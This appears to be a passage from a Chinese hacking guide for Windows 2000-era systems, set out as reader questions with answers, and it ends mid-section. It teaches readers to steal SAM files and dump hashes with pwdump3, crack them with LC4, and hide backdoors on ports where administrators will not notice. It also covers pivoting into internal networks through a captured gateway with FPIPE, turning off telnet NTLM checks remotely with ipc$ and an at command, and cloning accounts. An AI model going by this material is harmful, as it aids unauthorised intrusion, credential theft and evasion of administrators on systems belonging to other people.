Win2k 的密码在哪里呢？打开 C 盘（假设 win2k 安装在 C 盘），按 F3，搜索 SAM 文件，会搜索出很多的 SAM 文件，但是注意，只有大写的 SAM 那个文件才是，其路径为 `C:\WINNT\system32\config`。在这里，保存着 win2k 的用户配置信息和密码。

关于 win2k 的密码，需要注意一点，win2k 的密码已经经过了 syskey 加密，而 win98 甚至 Windows NT 都没有。

无需多说，win2k 的密码加密机制和 win98 是有着本质区别的，所以，针对 win98 的破解密码的工具对 win2k 是不可能有效的。

## 说一下 PQWAK 和 win98 的 NETBIOS 密码校验漏洞

PQWAK 是针对 win98 的 NETBIOS 密码进行破解的一个工具。

Win98 的 NETBIOS 密码校验上有一个漏洞：发送的验证密码的第一位与实际密码的第一位相同的时候，系统就会认为该密码是正确的。

针对该漏洞，经常使用工具 netpass 和 PQWAK 进行破解。当然，由于该漏洞的存在，即使我们使用手动进行猜解也不是什么难事了。

我想把我的后门程序安置在端口 80 上，可以吗？

## win2k部分

## win2k 的服务与端口

win2k 中，有很多的服务，每个服务都会对应一个或多个端口号，但是，不同服务使用的端口号是不同的。这也就是为什么我们可以通过端口号来判断主机开启服务的原因了。

## 服务的响应问题

当一台主机开启了一个服务的话，该服务一定会绑定在某个端口上。因此，只要我们通过特定的协议并以该服务特定的访问方式对该端口进行访问的话，我们就可以得到该主机提供的这项服务。例如，主机开启 telnet 服务，并将 telnet 端口设置在 5277 上，这样，客户机只要通过命令 `telnet ip 5277` 就可以连接登录到 telnet 服务器上。这个过程就是一个简单的服务请求和服务响应过程。

## 服务的优先级

一般情况下来说，各个服务之间是不会相互干涉、相互影响的，所以，一般情况下也没有什么优先级可言。但是，当两个服务使用的端口中出现重复的话，就要考虑到优先级的问题了。不过，优先级的考虑只是针对那些同时随计算机启动而一起启动的服务而言的。

## 不同服务使用相同端口

有很多人会有这样的想法：对方开启了 IIS 服务，那么，只要我做一个开放端口 80 的后门程序的话，那么，只要后门安装成功，对方一定随时被我所控制。

但是，事实上并没有这么简单，通过下面的几个实验，就可以说明一些问题。

### 实验一

先启动 IIS 中的默认站点，然后用 nc 监听本地的端口 80（注意顺序不能错，否则会出问题）。现在，毫无疑问，已经有两个服务（或程序）占用同一个端口 80。那么，现在端口 80 到底绑定的是哪个服务？我们只要 `telnet ip 80`，然后 `get` 一下就知道了。如果该端口对应的服务是 web 服务的话，就会返回 IIS 的信息。结果呢？在 NC 运行着的 cmd 界面上我们会看到，响应的其实是 NC 打开的端口 80（图12-7）。

图12-7

### 实验二

停掉 IIS 所有服务，使用 nc 监听端口 80，然后启动 IIS 中的默认 web 站点。结果是什么样？只要做一下就不难发现，如果先用 NC 在本地将端口 80 打开的话，那么，当启动 web 站点的时候，就会出现“地址被占用”的信息而致使默认 web 站点不能启动（图12-8）。

图12-8

### 实验三

停掉 IIS 中的所有服务，修改 FTP 的端口为 80（图12-9），然后启动 FTP 服务和默认 web 站点。至于启动顺序，可以随意。启动后，`telnet ip 80` 来检测端口 80 上的服务信息，如此反复，多试几次，记录结果（每次实验的启动顺序不要相同）。

图12-9

反复进行实验并观察，大家慢慢会发现一些有趣的地方：在绝大多数情况下，我们通过 `telnet ip 80` 的时候，都是黑屏，然后再 `get` 一下，会发现显示的是 web 服务器的信息。也就是说，多数情况下都是 web 服务能正常启动。也就是说，在端口 80 上的时候，web 服务器的优先级要比 FTP 的高，所以，即使 web 服务器是后启动的，也可以成功地绑定到端口 80 上。（不过注意，多做几次，幸运的话会发现，偶尔会出现一两次 FTP 服务进行响应，而不是 web 服务。我做了半个多小时，只见到一次，奇迹啊~~~）

为了进一步了解，我们还要继续实验。

### 实验四

和上面实验类似，也是先停掉 IIS 中的所有服务，然后修改 web 服务器的端口为 21（图12-10），接着，以任意的顺序启动 FTP 服务和 web 服务。也是多试几次，每次启动成功后，通过 `telnet ip 21` 来检测该端口上的服务信息，然后记录结果。

图12-10

结果：

惊奇地发现，结果和上面几乎相反。FTP 服务响应的次数明显增多，但是，偶尔仍会有 web 服务响应。而且，在这里，web 服务的响应次数要比上个实验中 FTP 的响应次数多一些。

这是不是就说明，影响服务启动和服务能否成功地绑定到自己的端口上的，不单单是服务的优先级，而同时还取决于服务的默认端口，真的是这样吗？这两个实验还不能说明问题，我们继续。

### 实验五

停掉 IIS 中的所有服务，修改 FTP 服务的端口为 5277，同时，将 web 服务的端口也修改为 5277，然后按上面两个实验的方法继续实验。

为了说明问题，这个实验一定要多次重复才可以。记录结果会发现，两个服务被成功绑定到端口 5277 的几率几乎是一半对一半。

这时候，我想可以总结一下了：

- 多个同级别的服务，在同一端口启动的时候，使用默认端口的服务会比较容易被绑定在该端口上（由实验三、四可看出）。
- 多个同级别的服务，在同一端口启动的时候，如果该端口并非这几个服务中任何一个服务的默认端口的话，那么，服务绑定到该端口的几率对每个服务来说应该是相等的（由最后一个实验——实验五得出的结论。当然，由于实验是由人工完成的，在次数上会有一定的限制，因为我不可能无穷尽地这样试下去，所以，在一定程度上也许有一些局限性，大家如果感兴趣的话，希望能自己多做几次甚至更多）。

最后，对于不同级别的服务（如实验一和实验二，NC 是以当前的 administrator 来运行的，而 web 服务由于是系统服务，所以其启动的必然是以 system 来运行的），其实我们是很难判断的。虽然由实验一，我们可以简单地说明后开启的服务会占用端口，但是，只要多做几次就会发现，实验一也会出现后面实验三和实验四的状况，也就是说，web 服务器偶尔也会先于 NC 来响应 telnet。

虽然在不同级的服务启动上我们不能确定，但是，至少在同级服务的启动上，我们得到了结论。而且，针对最初的问题，我想大家也应该心里有数了吧。

现在回答最初的问题：根据实验可以看出，无论是将后门做成服务，还是以对方的 administrator 来运行后门，都是不可取的。如果是后门做成服务的话，后门程序绑定在端口 80 上的几率非常之小。

如果是以对方的 administrator 来运行后门在端口 80 上的话，几率虽大，但是，我们从实验可以看出，虽然能将后门绑定在端口 80 上，但是，当向端口 80 发送请求的时候，却无法得到原来的 web 服务器的信息。也就是说，虽然你能通过端口 80 控制对方，但是，别人却无法浏览对方的 web 服务器上的 web 页面了。这样，很容易就会被管理员发现，也无法达到我们的目的了。

## 将后门绑定在哪个端口上是最佳的选择？

（从理论上进行的一个分析，需要大家自己去证明）对于一台主机，经常开放的端口会有哪些呢？一般来说，主机会开放这几个端口：

- TCP 80
- TCP 135
- TCP 139
- TCP 445

**注意：** 这里的 TCP 139 和 TCP 445 这两个端口，我们都知道，当访问共享的时候，我们会先试图通过 139 端口进行，如果该端口失败的话，我们就会使用端口 445。那么，这么分析的话，只要端口 139 是开放的，那么，端口 445 必将成空闲状态了。

这样一来，我们可以大胆地尝试将来选择 445 置放我们的后门程序。（注：以上只是一个简单的理论上的分析过程而已，如果大家认为有道理的话，可以自己进行一下实验，通过实践才能证明其正确性。）

## 如何才能进入内部网络？

先了解一下一般局域网接入 Internet 的模型（图12-11）。

从图中可以看出，局域网中总要有一个充当网关的设备来将局域网的主机接入 Internet。至于此处的设备，有可能是路由器、交换机甚至是一台计算机，而且，采用一台计算机来充当网关的情况还会见得比较多一些。

搞清楚，我们在哪里？

很多人不知道如何入侵内部网络，主要是因为对网络模型不够了解，而且，很多人搞不懂，在这样一个网络模型中，我们在哪里？

在这里，我们来看另外一个模型（图12-12）。从图中不难看出，我们的位置一般就是在 Internet 上，或者是另外一个接入 Internet 的局域网中。

理论上的分析，通过两幅图就不难看出来，只要攻占了局域网中接入 Internet 的网关设备，进入局域网就不是一个难事了。这一步很多人都可以较轻易地完成，但是，接下来的事很多人就不知道如何是好了。这里，简单地介绍一下在攻占网关后的步骤。

这里主要针对网关为一台计算机的情况，因为这种情况对入侵来说会比较简单。攻占网关后，在网关上获得一个 shell 是十分必要的。如果没有一个 shell 的话，我们将无法了解这个网络的 IP 分布情况，这样就无法进行下一步。

获得 shell 后，如果你的 shell 是一个 GUI 界面的话，就打开 cmd；如果是 telnet 连接的话，直接输入下面的命令：`ipconfig /all`，这时候会看到两块网卡上的两个不同的 IP（图12-13）。

这样的话，我们就可以获得其内部 IP 分布状况了（在此图中，内部的 IP 分布为 192.168.0.1/24）。这样，我们就可以直接通过这个 shell 来对内部的机器进行访问了，当然，这只是一个比较简单的方法。

这里还可以提供另外一个方法：如果你确保你所在网段的 IP 分布方式和对方的内部网络分布不同（即，你所在网段的 IP 分布不是 192.168.0.1/24 这样分布的），你可以将这台主机做成你的代理。这样一来，只要在 IE 里设置好代理，然后在 IE 地址栏里输入 `\\ip` 就可以访问其内部的主机了。

而且，将对方网关主机设置为代理之后，如果我想要扫描其内部网络的话，也可以将扫描器的代理设置为其网关主机的 IP 地址和对应的代理端口，然后填写上其内部的 IP 段，这样就可以进行对其内部网络的扫描了。

接下来，我们再讲一下第三种访问其内部主机的方法：端口重定向法。

这里，我们来使用工具 FPIPE，先将 FPIPE 上传到网关主机上。这里，我假设其内部网络中有一台主机的 IP 地址为 192.168.0.5，而且，该主机上启动了 IIS。接下来，我们要利用端口重定向来访问这台主机的 web 页面。

在网关主机上运行 FPIPE，命令格式为：

```bash
FPIPE 5277 5278 -l 80 192.168.0.5
```

这样，我们就把网关主机的 5277 端口重定向指向了 192.168.0.5 这台主机的 80 端口。我们只要在 IE 的地址栏里输入：`http://ip:5277`（此处的 IP 地址为网关主机的 IP 地址），这样就可以访问内部网络的 web 页面了。而且，如果需要 hack 的话，也很方便了。

以上都是提供一些思路而已。虽然说这些都是从理论上进行的分析，但是，在实际中都是切实可行的。接下来大家要做的就是自己动手试试了。

> 我用 NC 扫描 UDP 端口，但结果是所有 UDP 端口都开放，为什么啊？

```bash
nc v ip port    port。
```

## 了解一下 TCP 扫描的过程

关于 TCP 的三次握手，我想大家都应该知道了，而且，在前面的部分也有详细地讲述了。

TCP 的扫描呢，其实就是一个 TCP 的三次握手过程（这是针对一般的 TCP 扫描来说的）。也就是说，扫描工具会向每个 TCP 端口发送一个连接请求，接下来就等待对方回复，等对方回复后，扫描器会再发送确认信息。如果整个过程完成的话，就是建立了一个 TCP 连接，同时，也可以说明，该 TCP 端口是开放的。

如此反复，对 N 多个 TCP 端口都这样进行，这样就可以扫描出多个开放的 TCP 端口了。

除了标准的 TCP 扫描外，我们还常见有 SYN 扫描。

如果想知道 SYN 扫描的原理，大家还要了解 TCP 的三次握手过程才可以（第九章中有详细的过程讲解）。SYN 扫描，就是将扫描控制在 TCP 三次握手的第二个过程上。首先，扫描工具发送一个未知的 SYN 请求连接，对方收到请求，发现请求端口开放的时候，会送回一个应答信息，告诉扫描工具该端口开放并处于监听状态。到这步，扫描工具将不会继续下去完成 TCP 三次握手的第三步，而是就此停止。因为，这时候扫描器已经得知该端口开放了，因此，就可以报告该端口开放了。

由于 SYN 扫描并没有完全建立 TCP 连接，所以，在速度上，SYN 扫描要比传统的 TCP 扫描快一些。

## TCP 协议和 UDP 协议的区别

前面已经讲过了 TCP 和 UDP 这两种协议。它们的主要区别就是在于 TCP 可以提供准确、可靠的连接，而 UDP 则不可以。

## 说说 NC 对 UDP 端口的扫描过程

这里，我们用防火墙来看一下扫描的过程。首先，在一台安装了绿色警戒防火墙的机器上制定一个防火墙规则，规则的内容就是对本地的一些 UDP 端口的探测进行报警。

然而，我们要针对哪些 UDP 端口制定规则呢？使用 `netstat -n` 命令查看一下，获得本机上开放的 UDP 端口号：

| 协议 | 本地地址 |
|---|---|
| UDP | 0.0.0.0:135 |
| UDP | 0.0.0.0:161 |
| UDP | 0.0.0.0:445 |
| UDP | 0.0.0.0:1027 |
| UDP | 0.0.0.0:1029 |
| UDP | 0.0.0.0:3456 |
| UDP | 192.168.0.2:137 |
| UDP | 192.168.0.2:138 |
| UDP | 192.168.0.2:500 |
| UDP | 210.120.112.17:137 |

| 协议 | 地址与端口 |
|---|---|
| UDP | 210.120.112.17:138 |
| UDP | 210.120.112.17:500 |

我们就从这几个开放的端口中选择几个端口来制订防火墙规则。

这里，我们针对 UDP 的 135、161、445 进行了防火墙规则的设置，设置的内容是当有数据向该端口发送的时候，就进行提示和警告。

接下来，在另外一台计算机上运行命令：`nc 192.168.0.2 135-500`，这样来进行 135-500 的 UDP 模式扫描。

等 NC 扫描完成的时候，会发现，这边的防火墙上不多不少，正好记录了三个制订了规则的 UDP 端口的监视记录（图 12-14）。


图 12-14

另外，从 NC 的扫描结果也可以看到，在扫描范围内的 UDP 端口居然会呈 open 状态。

看一下 NMAP 针对 UDP 端口的扫描。看完了 NC 的扫描结果，我们来看一下 NMAP 的扫描过程是什么样的。我们也先使用防火墙来进行观察，防火墙的规则不变。

另外一台计算机上使用命令：`nmap -sU 192.168.0.2` 来进行 UDP 扫描。

等对方完全扫描结束后，观察防火墙的监视记录（图 12-15）。仔细观察会发现一些奇怪的地方，除了几个 UDP 端口外，还记录了 TCP 端口的连接。

而另一方面，NMAP 的扫描结果并不像 NC 那样，它的扫描结果显示的确实是真正意义上开放的 UDP 端口（图 12-16）。


图 12-15


图 12-16

## 分析

由此可见，NMAP 的扫描是建立在 TCP 连接的基础之上的，而 NC 则不是。这就是区别，而且，也正是因为这些，才导致了 NC 不能准确扫描到开放的 UDP 端口。

因为 NC 在扫描过程中，没有与主机建立连接，而是直接将数据发送到每个 UDP 端口进行 UDP 端口的探测。然而，对于 UDP 协议来说，它是非面向连接的协议，不像 TCP 那样。

TCP 端口开放的确认条件是：在与该 TCP 端口建立了连接后才认为该端口开放（三次握手的过程），而 UDP 则不是这样的，只要在该端口上有数据发送或是接收，计算机就会认为该端口开放。

因此，在 NC 扫描的时候，NC 不断向各个端口发送数据，而对方的每个端口都将接收数据，这样，NC 就认为所有的端口开放。

NMAP 的扫描则是在建立了连接之后，从刚才的防火墙记录的结果中就可以看出来，NMAP 是先建立了 TCP 连接的，因此，就避免了这种情况的发生，从而真正地达到了 UDP 端口扫描的目的。

## 最后再说一下 UDP 端口开放的问题

当一个数据发送到计算机的 UDP 的一个特定端口后，该端口只要空闲，就会接收请求。但是，如果该端口没有对应任何服务的话，会发现没有应用程序可以处理此数据，因此必定会认为该数据无用而丢弃或做其他处理。

而一些特定的开放 UDP 端口则不是这样，例如 UDP 161，它提供的是 SNMP 服务，它不需要有数据发送至该端口后该端口才开放，而是一直呈开放状态（也叫做监听状态）。当有 SNMP 相关的数据发送过来的时候，只要数据请求或是响应正确，它就会进行接收。

也就是说，真正开放的 UDP 端口实际上就是那些有服务绑定在上面的 UDP 端口，其他端口在默认情况下是不会开放的。

其实，TCP 端口大致也是如此，只是针对 TCP 需要建立连接而导致其过程没有 UDP 这么简单而已，大家有兴趣的可以动动脑子想一想。

## 如何突破网关的种种限制？

先来看看常见网关的几种限制：

- 不能浏览 Web 页面。
- QQ 总是登录失败。
- 不能正常连接 IRC 聊天室。

这三种是最常见的，其他的当然也有，但是，究其原因，都是类似的。

## 屏蔽的手段和方法

- 屏蔽协议。
- 过滤特殊的端口请求。

针对 OICQ，网络中有可能完全屏蔽掉 UDP 协议，致使 OICQ 不能正常登录（不过从实际角度出发考虑的话，完全屏蔽某一种协议并不太现实）。另外就是过滤掉特殊的端口请求，例如，过滤掉所有端口 80 的请求，这样，就不能浏览 Web 页面了。

其实还有一种，现在好像也比较流行，就是使用工具。现在很多工具都有这样的功能，就是屏蔽掉某一个网段的，或是某一段甚至某几个 IP 地址的某种请求。例如，我可以屏蔽掉 IP 地址为 1.1.1.1、1.1.1.4、1.1.1.7 这三个 IP 地址的所有 UDP 请求，这样，这三个 IP 地址就不能使用 QQ 了。另外，还有很多软件甚至可以从 MAC 上进行屏蔽，这样就可以防止通过修改 IP 来躲避这种屏蔽手段。

## 突破限制的几种常见方法

### 1、针对端口的过滤

为了不让大家浏览 Web 页面，我可以做一个过滤，过滤掉所有对端口 80 的请求，这样，大家就都别想上网了。不过这种屏蔽方法的突破很简单：在 Internet 上找一个代理服务器，但是，该代理服务器的端口不能为 80。只要满足这样的条件，在你的 IE 里设置好代理服务器地址和端口，就可以突破屏蔽了。

常见的也有过滤掉 QQ 的特定端口请求来防止内部网络上 QQ 登录的，解决方法同样简单，只要找个 socks5 代理就可以了，如果是 QQ 会员的话，还可以用 HTTP 代理。

> 关于 QQ 的连接请求，QQ 登录的时候，会向腾讯公司的 QQ 服务发送请求，当然，这个请求也是发送到特定的端口。

这个要屏蔽请求的地址是什么？打开 QQ 并打开参数设置项，在里面的“网络设置”卡片上，我们就可以找到答案了（图 12-17）。


### 2、协议的屏蔽

这种屏蔽方法比较厉害，连整个协议都屏蔽了，再怎么换端口也没用了，所以，我们只好做协议转发了。现在，有很多工具可以将协议进行转换。不过，进行协议转换的时候，需要在 Internet 上有台肉鸡来作为“协议转换主机”。至于协议的转换过程，我们可以看一下转换的流程图（图 12-18）。


图中分别有四台主机 A、B、C、D，其中，粗线条表示线缆，代表一个实际线路上的连接，而带箭头的线段则表示协议转发请求的过程。

例如，主机 A 想要登录 QQ，而服务器 D 是腾讯的 QQ 服务器。由于网关 B 屏蔽掉了 UDP 协议，所以不能直接进行登录。这时候，我们需要在 Internet 上找一台主机 C，用主机 C 来做协议转换主机（协议转换需要软件上的支持）。

这时候，我们发送请求时，会在主机 A 的本地通过协议转换软件将 UDP 请求转换成为 TCP 协议（在这里，我们假设其转换为 TCP 协议，在实际应用中，我们也可以转换为其他协议）。这时候，由于使用 TCP 协议，所以，请求也转换为了 TCP 请求，这样，网关 B 就允许通过。接下来，协议转换工具会将转换过的协议发送到主机 C 上，主机 C 收到后，会将 TCP 协议恢复为原来的 UDP 协议并发送至真正的目的地——腾讯的 QQ 服务器上，这样就完成了请求。

至于腾讯服务器将信息送回的过程，和上面类似，不过是反过来而已。

### 3、针对 IP 地址的屏蔽

如果针对 IP 地址进行屏蔽的话，比较容易突破，只要修改 IP 地址就可以了。不过，有些地方，例如网吧，会没有权限或是禁止修改 IP 地址。不过，呵呵，这就不关我的事了^^

### 4、针对 MAC 的屏蔽

修改 MAC 地址是个不错的方法（修改 MAC 地址的方法前面已经讲过），不过，这种方法必须满足一个条件，那就是网关设备的路由表采取了动态更新的方法。

也就是说，网关设备对内部网络机器的识别是通过动态更新的。说通俗一些就是，如果一台机器要求另外一台机器的 MAC 地址的时候，网关设备会通过直接询问或是间接询问等一系列方法获得被要求主机新的 MAC 地址。

如果是静态的呢，那就相反了。网关设备会把所有主机对应的 MAC 地址记下来。这样的话，如果你的 MAC 地址被修改了，那就惨了，这会导致无法上网，而且还不能和其他主机通信。（不过，从实际应用的角度上来说，很少有网络会采用静态的方法）。

不过，修改 MAC 还会带来其他的问题，在这里就不做详细讨论了。所以，大家除非在逼不得已的情况下，否则不要轻易修改 MAC 地址，否则……后果自负了。

## 总结一下

前两种方法都是很不错的方法，针对绝大部分屏蔽，前两种方法都是可以解决的。

这里说的也是理论的多一点，实际动手的少了一点。如果大家有兴趣可以找一些相关的软件来试试。关于协议转发部分，在《黑客 X 档案》2002 年第六期的《端口重定向的两个主要应用》中也有较详细的介绍，大家可以参考。

## 怎样使用 LC4？

LC4 是破解密码的一把利器，不过由于是英文的，所以，很多刚刚开始用的朋友显得不太顺手。在这里，就对几个常用的方法进行一下讲解，算是一个简单的 LC4 教程：

LC4 虽然强，但是，由于 LC4 对于 syskey 加密后的密码文件比较“过敏”，然而，win2k 的密码又偏偏采用了 syskey 进行加密，这就使得针对 win2k 的破解有了一定的难度。不过还好，由于 LC4 的强大功能，还有几个我们可以经常用到的而且也十分有效的破解密码的方法。

首先，我们先了解一下 LC4 常用的破解方式。

作为密码破解工具，针对密码进行破解的话，除了字典法以外，也就是暴力破解了。LC4 也是采用了字典法和暴力破解两种方法，除此之外，LC4 还支持两种方法结合的破解方式。

打开 LC4 后，选择“File → New session”，然后选择“session → session options”，在这里进行密码破解方式的选择（图 12-20）。


### 方式一、Dictionary Crack，字典破解

点击右边的“Dictionary List”可以选择字典文件（图 12-21）。LC4 默认安装完成后，会有几个 dic 文件，大家可以对这些文件进行添加修改。另外也可以自己制作字典文件，然后通过选择字典的按钮来选择自己制作的字典。


### 方式二、Dictionary/Brute Hybrid Crack，字典/暴力混合式破解

不推荐使用这种方法，感觉这种方法的破解速度不如其他两种好，当然，个人意见而已。这种破解方式下可以设置字符长度。

### 方式三、Brute Force Crack，暴力破解

这种方式还不错，虽然有时候会慢一些，但是，针对一些复杂密码的话，使用暴力破解确实是一个不错的选择。

选择暴力破解后，可以在“Character Set”下选择字符的范围，这样比较有针对性。

如果机器够强悍的话，比较推荐大家使用暴力破解，效率还算比较高。

几种可以获得 administrator 密码的方法：

点击“Import”选项，在这下面可以看到一些选项（图 12-22）。但是针对 win2k 来说，一些选项没有什么作用，例如“Import From Remote Registry”。选择后，填写上远程计算机的地址，过一会儿会发现返回一个错误提示（图 12-23）。从图中不难看出，提示内容中大概意思是说对方主机是一台 win2k 主机，或是使用了 syskey 的 NT 4.0 主机。


现在越来越多的机器都是使用 win2k 系统了，所以，这一项对于我们来说基本上就是没有什么用处了。

而现在对我们来说，用得比较多的是这三项：“Import From SAM File”“Import From Sniffer”“Import From PWDUMP File”。

下面，我们就针对这三项的用法做一下讲解：

- **1. Import From SAM File**  
  这一项好像没有什么好说的了，因为大部分人都知道，SAM 文件保存了 win2k 的密码以及用户配置等内容；这一项就是用来破解 SAM 文件的，只要我们设法搞到对方的 SAM 文件后，用这一项进行破解就可以了。

- **2. Import From Sniffer**  
  很有意思的一项，选择它后，会出现一个页面，在这里要求选择网卡，根据自己的网卡选择后点“OK”，然后来到 SMB Packet Capture Output 这里（图 12-24）。


在这里，点击上面的开始按钮后，就开始嗅探了；当 sniff 到数据的时候，就可以停下来，然后点下面的“Import”按钮进行破解了。

- **3. Import From PWDUMP File**  
  这是针对 PWDUMP 工具 dump 下的 win2k 的密码散列进行破解的工具。有关 pwdump2 已经对有 syskey 保护的 win2k 不起作用，所以，我们在 dump 密码散列的时候要选择 pwdump3。

散列后，只要使用 LC4 的这一项进行破解就可以了。说一下 **pwdump3**，pwdump3 的用法不难，命令格式为：`PWDUMP3 machineName [outputFile] [userName]`（图 12-25）。


图 12-25

例如，使用这个命令：`pwdump3 192.168.0.1 pw admin`。这样就是从 `192.168.0.1` 主机上 dump 密码散列，使用的用户为 `admin`，保存为文件 `pw`。

关于 pwdump3 的疑惑，很多人认为其存在没有价值，因为在 pwdump3 中使用的用户必须为对方的一个管理员账号。其实，pwdump3 是为那些可以获得对方管理员权限（或 system 权限）但还不能确定固定管理员账号的人设计的。比如常见溢出攻击拿到 system 权限后，就可以用获得的管理员账号去 dump 密码散列，以便破解 administrator 账号。

就这样大概介绍了一下 LC4，这个工具到底怎么样，还需要大家自己去试试才知道。

我 telnet 连接一台主机，屏幕只是闪一下，然后就显示“遗失对主机的连接”，出了什么问题？

- 先来熟悉一下 win2k 的 telnet 服务的几种验证方式：
  - `0`：不使用 NTLM 身份验证，使用基于用户名和密码的登录验证。
  - `1`：先尝试 NTLM 身份验证；如果失败，再使用基于用户名和密码的登录验证。
  - `2`：只使用 NTLM 身份验证；如果失败，则登录失败。

如何修改验证方式呢？win2k 中自带了一个工具叫做 `tlntadmn`，在 cmd 中或“开始→运行”中输入 `tlntadmn` 即可运行（图 12-26）。根据提示，可以比较容易地修改 telnet 服务器配置（包括登录验证方式、端口号，甚至对应 shell 等）。


## 什么是 NTLM 验证方式？

NTLM 验证的过程不是很复杂（我是指说起来不是很复杂^-^），关于这方面文章比较多，不做重复。

在这里说一下，在我们客户端登录过程中，NTLM 在宏观上的表现：其实很简单，如果当前登录客户机的用户名和密码与要登录主机上的某一个用户名或是密码相同的话，那么，验证就可以通过，登录成功；如果不同，则验证失败，登录也就失败。这就是我们宏观上看到的表现。

## telnet 的三种登录方式

如果 NTLM 的值为 0 的话，则是基于用户名和密码的登录方式。一旦连接成功，会要求输入用户名和密码，只有用户名和密码正确后才可以登录（图 12-27）。


如果 NTLM 的值为 1 的话，那么，会先尝试 NTLM 验证方式。简单地说，就是检测当前用户的用户名和密码是否在 telnet 服务器也存在。如果没有的话，NTLM 就会失败，但这时候并不断开连接，而是换为基于用户名和密码的登录方式（图 12-28）。


如果 NTLM 值为 2 的话，那么，登录的验证过程将只使用 NTLM 进行验证，这样的话，很容易造成登录失败哦（图 12-29）。由于 win2k 的 telnet 服务，当其开启成功的时候，默认就是使用 NTLM 验证（NTLM 值为 2），所以，很多人在不注意的情况下，就出现了登录失败的情况。


## 取消 NTLM 验证的几种方法

这里，讲几种常用到的取消或是简单通过 NTLM 验证的方法：

- NTLM.EXE
- 通过 NTLM 验证一法

没什么说的吧，是小榕的一个工具，在 telnet 服务器上运行该程序后，NTLM 验证就会被取消掉。

刚才我们已经说过了，从宏观的角度上观察，NTLM 验证实际上就是检查当前登录用户是否和服务器上的已存在用户相匹配，如果匹配的话，就通过。那么，如果我们得到了对方的某个用户的密码后，我们就可以……嘿嘿。

也许有人已经想到了，那就是添加一个和 telnet 服务器上相同的用户，并且密码相同，然后使用这个用户登录系统，再进行 telnet 登录。

这样做确实可以，但是太麻烦。我们这样做，很简单的：在“开始→程序→附件”中找到命令提示符，然后为其创建一个快捷方式，右键选择该快捷方式，并选择属性。在这里，有一项“以其他用户身份运行”（图 12-30），选中它。然后，在自己的系统里创建一个和对方服务器相同的用户（密码也要相同），然后运行这个快捷方式。这时候，会提示选择要以哪个用户运行该程序，只要……填上刚才新建的用户名和密码后，就可以使用其进行 Telnet 连接了。这时候你会发现，很轻松地就通过了 NTLM 验证。


图 12-30

## 3、修改 Telnet 服务端配置

我们已经说过了 Telnet 服务器的管理程序：tlntadmn。我们只要利用它，再加上一个 TXT 文件，就可以修改 Telnet 服务端的配置。

例如，我们要将 NTLM 值修改为 0，那么先建立一个 txt 文本，其内容如下：

```
3
7
y
0
y
0
5
4
0
```

在每个数字或字母的后面，都要有一个回车。也就是说，每个数字或字母独占一行（图 12-31）。


图 12-31

然后，将该文本保存为 hack.txt。接下来，与对方建立一个 ipc$ 连接，上传该文本至对方的 C 盘根目录下，然后用 at 命令，这样来做：`at \\ip time tlntadmn < hack.txt`

学过 DOS 的朋友都知道，`tlntadmn < hack.txt` 的作用就是将 hack.txt 重定向到 tlntadmn 中。实际上，效果就相当于在 tlntadmn 运行后依次输入 3、7、y、0、y、0、5、4、0 这几个字符……运行 tlntadmn 后依次输入这几个字符后，就会将 NTLM 值修改为 0，并且还会重新启动 Telnet 服务。

接下来，就可以上去了，输入正确的用户名和密码后即可登录。

## 4、工具 openTelnet

refdom 写的工具 openTelnet 提供了修改 NTLM 值的功能，使用方法很简单（图 12-32）。在这里，我们只要将想要设置的 NTLM 值写上就 OK 了，而且还可以修改 Telnet 服务器的端口号。


图 12-32

不过也要注意，openTelnet 也需要对方的 ipc$ 连接开放才可以使用。

> 使用 CA 的时候，到一半就提示出错了，怎么回事？

这里用实验来证明一切吧！在这里，我们要做几个实验，来确定使用 CA 都需要哪些必要条件。（注意：下面实验的一些步骤如果大家没有把握的话不要乱做……）

## 实验一、在另外一台计算机上，删掉 ipc$ 共享，然后在此机器上运行命令，对其账号进行克隆

看看会有什么样的结果（图 12-33）。


从图中不难看出，错误是出现在连接对方主机这一步上。看来，CA 也许依靠 ipc$ 管道来建立连接的。

## 实验二、删除 admin$ 共享（ipc$ 共享开放）

还是使用同样的命令，看看有什么结果（图 12-34）。


从图中看出，CA 已经完成了 Connect 和 Get SID 这两个步骤，但是在 Preparing 的时候出现了错误。看来，admin$ 是否共享对 CA 克隆账号也有很大的影响哦。（admin$ 是很多人都想不到的一个地方，呵呵，我也是一个偶然的机会才想到这个共享会影响 CA 过程的，所以说嘛，有时候运气也是很重要的哦）

以下两个实验请慎重，我做过后发现系统出现问题，不过到现在还不知道问题到底出在哪，惨哦。5555~~~

## 实验三、删除 repair 文件夹

C:\WINNT\repair 文件夹，毫不手软，删掉。

因为该文件夹是对系统重要信息的备份文件夹，再加上 CA 的过程会访问 admin$，所以我有理由怀疑 CA 真正要访问的是这里。

然后使用命令，发现没有出现任何问题。看来这里不会影响 CA，算了，既然不影响，把 repair 恢复就可以了。（众人倒~~~嘿嘿，大家是不是跟着我一起删掉就没备份啊，上当了哦）

## 实验四、更改权限（Dangerous! 小心啊，如果对 win2k 的权限不够了解的话，不要乱试）

这里，我们要修改的是 C:\WINNT\system32\config 文件夹的权限。大家都知道，保存 win2k 用户配置信息和密码的 SAM 文件就在这里，因此……嘿嘿，不说废话了，开始。

找到 config 文件夹，右键，选属性，并选择“安全”选项卡。在这里，我们将 administrator 对其的权限全改为“拒绝”（图 12-35）。这里要注意，要记得选择继承权限才可以，否则的话即使进行了设置也是没有用的。


接下来，我们来验证一下权限是否真的生效了。我们来双击 config 文件夹试一下，这时候会发现弹出一个错误窗口，返回信息“无法访问 C:\WINNT\system32\config”（图 12-36）。看来权限已经设置正确无误了。


接下来，我们使用同样的命令来克隆账号。这时候会发现，呵呵，出错了（图 12-37）。


虽然在最后返回了“Clean Up .... OK”的信息，但是由于前面“Processing .... ERROR”，所以说整个过程还是失败的。

看来，CA 真正的目的是要通过 admin$ 共享来读取 SAM 散列（呵呵，我的猜测而已，信不信由你了）。

以上是实验过程和我个人的一点点分析，结果都给大家了。如果大家感觉我分析得不对的话，可以自己想想，如果有更好的想法记得告诉我哦。

实验还是不主张大家做的，除非你有把握 ^^，自己看着办吧。

## 如何分析扫描结果？

在这里，我们以 x-scan 扫描到的结果为例进行分析。但是，这里的分析是针对端口的，而不是针对 IIS 漏洞。因为这些漏洞有比较强的时效性，而且又有大量的文章介绍其利用方法，实在没有必要重复，而端口则不一样。

我们先来看一个扫描结果，其结果如下图（图 12-38）。

- 开放端口：7、9、13、17、19、25、80、135、139、443、445、7007。
- 真正有可能用上的端口：25、80、139、445。


我们来解读一下扫描结果：

